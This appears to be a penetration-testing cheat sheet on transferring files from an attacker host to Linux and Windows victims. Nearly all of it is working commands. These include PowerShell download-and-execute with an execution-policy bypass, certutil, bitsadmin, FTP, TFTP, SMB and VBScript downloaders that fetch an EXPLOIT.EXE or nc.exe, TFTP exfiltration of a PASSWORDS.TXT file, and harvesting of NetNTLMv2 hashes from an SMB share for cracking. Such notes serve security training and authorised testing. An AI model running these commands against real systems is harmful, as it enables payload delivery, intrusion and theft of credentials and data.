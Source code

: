 # Transferring Files from Linux **TO** Linux

## On attacker host

Set Up a Simple Python Webserver:
```
python -m SimpleHTTPServer 4444
```

## On victim host

* Curl
* Netcat
* Ncat
* PHP (`echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>"`)
* TFTP
* FTP
* SCP

# Transferring Files from Linux **TO** Windows

## PowerShell

**On attacker host**
```
python -m SimpleHTTPServer 4444
```

**On victim host**
* Browse http://<ATTACKER_IP>:4444/EXPLOIT.EXE
* **Download** file:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c "(new-object System.Net.WebClient).DownloadFile('http://<ATTACKER_IP>/EXPLOIT.EXE','C:\temp\EXPLOIT.EXE')"
```
```
powershell.exe -c "iwr -OutFile EXPLOIT.EXE -Uri http://<ATTACKER_IP>/EXPLOIT.EXE"
```
* Execute `ps1` script:
```
powershell -c "Import-Module c:\TEMP\PowerUp.ps1;Invoke-AllChecks"
```

* **Download** and **execute** a powershell script:
```
powershell "IEX(New Object Net.WebClient).downloadString('http://<ATTACKER_IP>/EXPLOIT.ps1')"
```

## FTP

**On attacker host**
```
python -m pyftpdlib -p 21
```

**On victim host**

Windows has an FTP client built in to the PATH. You can open an FTP connection and download the files directly from Kali on the command line:
```
echo open <ATTACKER_IP> 21>cmd.txt  
echo anonymous>> cmd.txt 
echo anonymous>> cmd.txt  
echo bin >> cmd.txt  
echo GET EXPLOIT.EXE >> cmd.txt  
echo bye >> cmd.txt  
```
```
ftp -v -s:cmd.txt 
```

## TFTP

It used to be installed by default in Windows XP, but now needs to be manually enabled on newer versions of Windows.

You can try to enable TFTP from the command line:
```
pkgmgr /iu:"TFTP"  
```

**On attacker host**
* With Metasploit framework
```
msfconsole
use auxiliary/server/tftp
```

* With atftpd daemon
```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```
(Now you can put stuff in `/srv/tftp` and it will be served)

**On victim host**
* Grab file
```
tftp -i <ATTACKER_IP> GET EXPLOIT.EXE 
```

* Exfiltrate file
```
tftp -i <ATTACKER_IP> PUT PASSWORDS.TXT
```

## SMB

**On attacker host**
```
python smbserver.py SHARE <ATTACKER_DIR>
```

:warning: If you look at the output from `smbserver.py`, you can see that every time we access the share it outputs the NetNTLMv2 hash from the current Windows user. You can feed these into John or Hashcat and crack them if you want (assuming you can't just elevate to System and get them from Mimikatz)

**On victim host**
* Connect to our shared drive
```
net use \\<ATTACKER_IP>\SHARE
```
* Get file
```
copy \\<ATTACKER_IP>\SHARE\EXPLOIT.EXE 
```

* Execute .exe
```
\\<ATTACKER_IP>\SHARE\EXPLOIT.EXE 
```

## VBScript

* Here is a good script to make a wget-clone in VB:
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

* Execute the script:
```
cscript wget.vbs http://<ATTACKER_IP>/EXPLOIT.EXE EXPLOIT.EXE
```

## Debug.exe

:warning: Works on **windows 32 bit** machines. Payload size must be lower than 64 kb!

**On attacker host**
* Compress `nc.exe`
```
upx -9 nc.exe
```

* Disassemble it
```
wine exe2bat.exe nc.exe nc.txt
```

**On victim host**

Just copy-past the text into our windows-shell. And it will automatically create a file called `nc.exe`

## CertUtil

**On victim host**
```
certutil.exe -urlcache -f http://<ATTACKER_IP>/EXPLOIT.EXE EXPLOIT.EXE
```

## bitsadmin

**On victim host**
```
bitsadmin /create 1 
bitsadmin /addfile 1 http://10.10.14.12/nc.exe c:\TEMP\nc.exe 
bitsadmin /RESUME 1 bitsadmin /complete 1
```

# References

* https://blog.ropnop.com/transferring-files-from-kali-to-windows/
* https://sushant747.gitbooks.io/total-oscp-guide/transfering_files.html
* https://0xdarkvortex.dev/index.php/2018/04/17/31-days-of-oscp-experience/